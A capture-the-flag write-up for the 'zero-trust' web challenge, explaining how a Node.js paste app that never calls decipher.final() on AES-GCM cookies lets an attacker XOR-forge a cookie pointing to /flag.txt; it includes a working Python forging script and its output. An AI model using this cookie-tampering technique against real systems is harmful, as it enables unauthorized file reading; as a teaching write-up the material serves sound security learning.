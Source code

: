 # web/zero-trust (24 solves/488 points/first blood)

> I was researching zero trust proofs in cryptography and now I have zero trust in JWT libraries so I rolled my own! That's what zero trust means, right?
>
> Note: the flag is in `/flag.txt`

Provided: [`index.js`](index.js)

## Solution

At first glance, the file we're provided seems pretty solid in the cryptography department.
They're using AES-256-GCM, an authenticated encryption mode of AES, which is a Good Thing™ since it prevents tampering with a ciphertext.

...or, at least it would if the authentication function didn't look like this:

```javascript
function needsAuth(req, res, next) {
    const auth = req.cookies.auth;
    if (typeof auth !== "string") {
        makeAuth(req, res, next);
        return;
    }
    try {
        const [iv, authTag, ct] = auth.split(".").map((x) => Buffer.from(x, "base64"));
        const cipher = crypto.createDecipheriv("aes-256-gcm", key, iv);
        cipher.setAuthTag(authTag);
        res.locals.user = JSON.parse(cipher.update(ct).toString("utf8"));
        if (!fs.existsSync(res.locals.user.tmpfile)) {
            makeAuth(req, res, next);
            return;
        }
    } catch (err) {
        makeAuth(req, res, next);
        return;
    }
    next();
}
```

Spot the problem yet? No worries, I'll point it out to you :)

Let's consult the documentation for the [Node.js `crypto` module](https://nodejs.org/api/crypto.html), specifically the `decipher.setAuthTag()` function:

> `decipher.setAuthTag(buffer[, encoding])`
>
> When using an authenticated encryption mode (`GCM`, `CCM`, `OCB`, and `chacha20-poly1305` are currently supported), the `decipher.setAuthTag()` method is used to pass in the received authentication tag. **If no tag is provided, or if the cipher text has been tampered with, `decipher.final()` will throw,** indicating that the cipher text should be discarded due to failed authentication. [emphasis mine]

We can see above that the `setAuthTag()` function is called before decrypting the data, but the `decipher.final()` function is never called.
This allows attackers (including us :)) to tamper with the ciphertext, negating basically any benefits an authenticated encryption mode may bring.

How is this useful though?
Well for starters, GCM stands for Galois Counter Mode.
It's based on the similar sounding Counter (CTR) mode, which essentially transforms AES into a stream cipher.
Instead of directly encrypting the plaintext with AES and xoring blocks with stuff for example (looking at you CBC), a stream cipher generates a key stream that is xored with the plaintext to create the ciphertext.
Let's see what that looks like for GCM, since that's what we're dealing with in this case.

<div align="center">
    <img src="img/gcm-diagram.png" alt="diagram displaying how GCM works by xoring the keystream with plaintext">
    <p style="text-align: center;">Courtesy of <a href="https://commons.wikimedia.org/wiki/File:GCM-Galois_Counter_Mode_with_IV.svg">Wikimedia Commons</a>.
    Note that we can ignore the bottom part since the authentication tag isn't actually checked :)</p>
</div>

Yep, definitely a stream cipher :)
Normally this wouldn't be useful information because xoring is really hard to invert, but this isn't normal crypto.
Based on the `makeAuth` function, we actually know part of the plaintext that's encrypted with AES-256-GCM:

```javascript
function makeAuth(req, res, next) {
    const iv = crypto.randomBytes(16);
    // begin relevant section
    const tmpfile = "/tmp/pastestore/" + crypto.randomBytes(16).toString("hex");
    fs.writeFileSync(tmpfile, "there's no paste data yet!", "utf8");
    const user = { tmpfile };
    const data = JSON.stringify(user);
    // end relevant section
    const cipher = crypto.createCipheriv("aes-256-gcm", key, iv);
    const ct = Buffer.concat([cipher.update(data), cipher.final()]);
    const authTag = cipher.getAuthTag();
    res.cookie("auth", [iv, authTag, ct].map((x) => x.toString("base64")).join("."));
    res.locals.user = user;
    next();
}
```

The data that's being encrypted is just a JSON-serialized object with a single key (`tmpfile`) and value (the partially random path of the paste).
Let's check what the actual output of `JSON.stringify` looks like:

```javascript
>> console.log(JSON.stringify({"tmpfile":"/tmp/pastestore/aaaaaaaaaaa"}))
{"tmpfile":"/tmp/pastestore/aaaaaaaaaaa"}
```

Looks like there's no whitespace, so that's one less thing to deal with.
While we don't know the random path (it is random after all), luckily for us we don't need to since replacing the path with `/flag.txt` only reaches up to `pastestore`:

```javascript
{"tmpfile":"/tmp/pastestore/aaaaaaaaaaa"}
{"tmpfile":"/flag.txt"} // so short!
```

With that in mind, we can then modify our auth cookie to instead point to `/flag.txt`!
All we need to do is xor the ciphertext (i.e. the third component) with `{"tmpfile":"/tmp/pastestore/"` to recover the portion of the keystream we need, and then xor *that* with `{"tmpfile":"/flag.txt"}` to get a valid cookie pointing to the flag file.
Because GCM turns AES into a stream cipher, we don't have to worry about padding or anything; we can just truncate off the rest of the original ciphertext since we don't need it (or know it haha).

I wrote up [a quick Python script](forge.py) to automate the cookie tampering process:

```python
from base64 import b64decode, b64encode
from urllib.parse import unquote_plus, quote_plus

def xor(a, b):
    return bytes(aa ^ bb for aa, bb in zip(a, b))

auth = "mQQGDoGKo3Y0nVA2Uyz3ug%3D%3D.7PUFAYWIcbbZ2hnVSMpDAw%3D%3D.tBQr%2FSqwhT1hg%2BDzri2airPQuSmlA68ow61lwVa1blHkMWsMJUqxzogUdvJbjioXfYZJ2HBU5k%2BU4vju%2Bn8%3D"

if __name__ == "__main__":
    iv, tag, ct = auth.split(".")
    ct = b64decode(unquote_plus(ct))
    new_ct = xor(b'{"tmpfile":"/flag.txt"}', xor(b'{"tmpfile":"/tmp/pastestore/', ct))
    new_ct = quote_plus(b64encode(new_ct))

    print(f"new cookie: {iv}.{tag}.{new_ct}")
```

Running it gives you the forged cookie:

```shell
$ python forge.py
new cookie: mQQGDoGKo3Y0nVA2Uyz3ug%3D%3D.7PUFAYWIcbbZ2hnVSMpDAw%3D%3D.tBQr%2FSqwhT1hg%2BDzrj%2Bbm%2FuOrCKlRKE%3D
```

Swapping out your current authentication cookie with that one and reloading then displays the flag in the text box:

<div align="center">
<img src="img/flag-paste.png" alt="Flag present in paste text box after swapping out cookie">
</div>

And there it is! `lactf{m4yb3_st1ck_t0_l1br4r1es_wr1tt3n_by_comp3t3nt_p3opl3}`.
Can't help but agree with that advice if you're going to misuse a crypto library because you don't trust other peoples' tested-secure libraries.
[JWT is okay to hate on though ;)](https://www.howmanydayssinceajwtalgnonevuln.com/)